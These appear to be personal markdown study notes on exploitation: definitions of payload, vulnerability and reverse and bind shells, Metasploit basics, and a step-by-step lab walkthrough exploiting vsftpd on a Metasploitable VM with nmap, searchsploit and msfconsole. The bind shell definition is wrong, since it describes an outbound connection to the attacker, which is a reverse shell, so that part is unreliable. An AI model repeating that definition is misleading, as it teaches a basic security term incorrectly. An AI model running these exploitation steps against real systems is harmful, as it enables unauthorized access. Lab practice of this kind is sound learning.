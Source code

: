 # Exploitation and gaining access

Exploitation and gaining access refer to the techniques and methods used to exploit vulnerabilities
in computer systems or networks in order to gain unauthorized access or control. This can involve
various activities such as finding and exploiting software vulnerabilities, bypassing security measures,
or using social engineering techniques to trick users into revealing sensitive information. The ultimate
goal is to gain unauthorized access to a system or network for malicious purposes.

- payload : A payload is the actual code or software that is used to exploit a vulnerability and gain access to a system or network. This can include malware, remote access tools, or other types of malicious software.
- vulnerability : A vulnerability is a weakness or flaw in a system or network that can be exploited by an attacker to gain unauthorized access or control. Vulnerabilities can exist in software, hardware, or network configurations, and can be exploited through various means such as code execution, privilege escalation, or data exfiltration.
- reverse shell : A reverse shell is a type of shell that allows an attacker to gain remote access to a system or network. This is typically achieved by exploiting a vulnerability and then using a payload to establish a connection back to the attacker's system, allowing them to execute commands and interact with the compromised system.
- bind shell: A bind shell is a type of shell that allows an attacker to gain remote access to a system or network. This is typically achieved by exploiting a vulnerability and then using a payload to establish a connection from the compromised system to the attacker's system, allowing them to execute commands and interact with the compromised system.

## Tools

### Metasploit Framework

- cd /usr/share/metasploit-framework : to navigate to the metasploit directory
- cd modules: to see 7 modules of this framework
- msfconsole : to start it
- show payloads : shows all of the available payloads
- show exploits
- use [module-name]: e.g use exploit/windows/...
- show info & show options
- set [parameter] [ip]

### exploit -> metasploitable

- start metasploitable
- check ifconfig
- sudo nmap -sV [ip of metasploitable]
- searchsploit [package-with-version]
- msfconsole
- msf6 > search vsftpd
- msf6 > use exploit/unix/rest..
- show info
- show options
- set RHOSTS [metasploitable-ip]
- show payloads
- show targets
- show options
- exploit : enter -> we got control of the terminal of metaslpoitable machine (type ls)
